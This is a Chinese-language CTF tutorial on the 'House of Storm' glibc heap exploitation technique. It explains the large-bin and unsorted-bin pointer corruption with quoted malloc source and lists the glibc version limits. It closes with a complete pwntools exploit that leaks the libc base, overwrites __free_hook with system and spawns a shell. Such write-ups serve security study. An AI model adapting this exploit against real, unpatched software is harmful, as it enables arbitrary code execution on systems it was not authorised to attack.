

# House of Storm

## 1.基本原理

unsorted bin attack 能够通过将目标地址链入 unsorted bin 然后取出其中另一个 chunk 从而在目标地址对应的 bk 写入 unsorted_chunks (av) ，然而如果我们想要将链入 unsorted bin 的 fake chunk
申请出来却通不过检查。这就需要利用 large bin 的特性伪造 fake chunk 的 size 和 fd 字段

利用条件：

- glibc 版本小于 2.30, 因为 2.30 之后加入了检查
- 需要攻击者在 `large_bin` 和 `unsorted_bin` 中分别布置一个 chunk 这两个 chunk 需要在归位之后处于同一个 `largebin` 的 index 中且 `unsorted_bin` 中的 chunk 要比 `large_bin` 中的大
- 需要 `unsorted_bin` 中的 `bk` 指针可控, 要指向可写内存
- 需要 `large_bin` 中的 `bk` 指针和 `bk_nextsize` 指针可控
- 利用 large bin attack 分别错位写一个 size 和 bk 的地址，size 错位写了 0x56（由于 pie 的原因，chunk 的地址总是为 6 字节，但是头部地址可能是 0x55 或者 0x56，这里需要 0x56 才能成功，因为 malloc 后会进行检测，一半成功的概率，如果 pie 关闭，该方法失效）


从 unsortedbin 中取出 chunk

```c
bck = victim->bk;
...
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

由于取出的 chunk 大小不在 small bin 范围，所以将放入 large bin

```c
/* place chunk in bin */

if (in_smallbin_range (size))
{
  victim_index = smallbin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;
}
else
{ ...
}
```

large bin 中的 chunk 是按大小降序排列。首先特判大小小于最小的 chunk 的情况。这里通过 bk 访问最小的 chunk ，根据事先的构造，待加入 large bin 的 chunk 大于 large bin 中最小的 chunk ，因此执行的是 else 里的内容

```c
else
{
  victim_index = largebin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;

  /* maintain large bins in sorted order */
  // largebin 不为空条件下
  if (fwd != bck)
    {
      /* Or with inuse bit to speed comparisons */
      size |= PREV_INUSE;
      /* if smaller than smallest, bypass loop below */
      assert (chunk_main_arena (bck->bk));
      // 如果小于 largebin 中最小 chunk 的情况
      if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk))
        {
          fwd = bck;
          bck = bck->bk;

          victim->fd_nextsize = fwd->fd;
          victim->bk_nextsize = fwd->fd->bk_nextsize;
          fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
        }
      // 不插在最后的情况
      else
        {
          assert (chunk_main_arena (fwd));
          // 遍历查找插入位置的前一个 chunk（fwd）
          while ((unsigned long) size < chunksize_nomask (fwd))
            {
              fwd = fwd->fd_nextsize;
  			  assert (chunk_main_arena (fwd));
            }
		  // 如果与前一个 chunk 大小相等，则正好插在前一个 fwd 的后一个位置
          if ((unsigned long) size == (unsigned long) chunksize_nomask (fwd))
            /* Always insert in the second position.  */
            fwd = fwd->fd;
          // 居中插入的情况
          else
            {
              victim->fd_nextsize = fwd;
              victim->bk_nextsize = fwd->bk_nextsize;
              fwd->bk_nextsize = victim;
              victim->bk_nextsize->fd_nextsize = victim;
            }
          bck = fwd->bk;
        }
    }
  else
    victim->fd_nextsize = victim->bk_nextsize = victim;
}

mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```

这里主要对fakechunk进行了两次写入的操作，一次是`victim->bk_nextsize->fd_nextsize = victim`,一次是`fwd->bk = victim`,分别用于伪造fakechunk的size和bk字段



精心构造成如下写的形式：

* 在开启pie的情况下，heap的地址首字节为0x55（01010101）或0x56（01010110），最后三位分别代表N、M、P，如果首地址字节为0x55，那么is_mmapped置0，会判断 arena_for_chunk(mem2chunk(victim))。由于 NON_MAIN_ARENA 置位导致计算出的 arena 不是 main_arena(ar_ptr) 因此通不过检查，所以首字节必须是0x56，此时直接mmapped通过检查即可。也就是说在运行时有一半的概率是修改正确的

  ```c
  assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
        ar_ptr == arena_for_chunk (mem2chunk (victim)));
  
  #define arena_for_chunk(ptr) \
    (chunk_main_arena (ptr) ? &main_arena : heap_for_ptr (ptr)->ar_ptr)
  ```
  
* 之后我们再遍历unsortedbin将fakechunk申请出来


glibc-2.27加入了tcache，那么此时遍历unsortedbin之后会把找到的合适chunk放到tcache中然后继续遍历，因此还会触发报错，所以需要先将tcache填满，最后通过calloc申请触发house of storm

glibc-2.28会对unsortedbin进行如下检查：

```c
/* remove from unsorted list */
if (__glibc_unlikely (bck->fd != victim))
malloc_printerr ("malloc(): corrupted unsorted chunks 3");
```

glibc-2.30开始对largebin有如下检查：

```c
if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))
malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
```

该方法失效

## 2.利用思路

exp：

```python
from pwn import *

elf_path = './pwn'
libc_path = './libc.so.6'
elf = ELF(elf_path, checksec=False)
libc = ELF(libc_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
# context.terminal = ['tmux','splitw','-h']
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# session = ssh(host='node5.buuoj.cn', port=26482, user='CTFMan', password='guest')
# p = session.process(['./vuln'])
#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())

def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

add_chunk(0, 0x418)
add_chunk(1, 0x18)
add_chunk(2, 0x428)
add_chunk(3, 0x18)
delete_chunk(0)
show_chunk(0)
libc.address = u64Leakbase(0x39bb78)
li("libc.address", libc.address)

add_chunk(10, 0x500)
edit_chunk(0, p64(0)+p64(libc.sym['__free_hook']-8)+p64(0)+p64(libc.sym['__free_hook']-0x10-0x18-5))
delete_chunk(2)
edit_chunk(2, p64(0)+p64(libc.sym['__free_hook']-0x10))

add_chunk(4, 0x48)
edit_chunk(4, p64(libc.sym['system']))
edit_chunk(1, b"/bin/sh\x00")
delete_chunk(1)
# #
# gdb.attach(p)
# pause()
p.interactive()
```

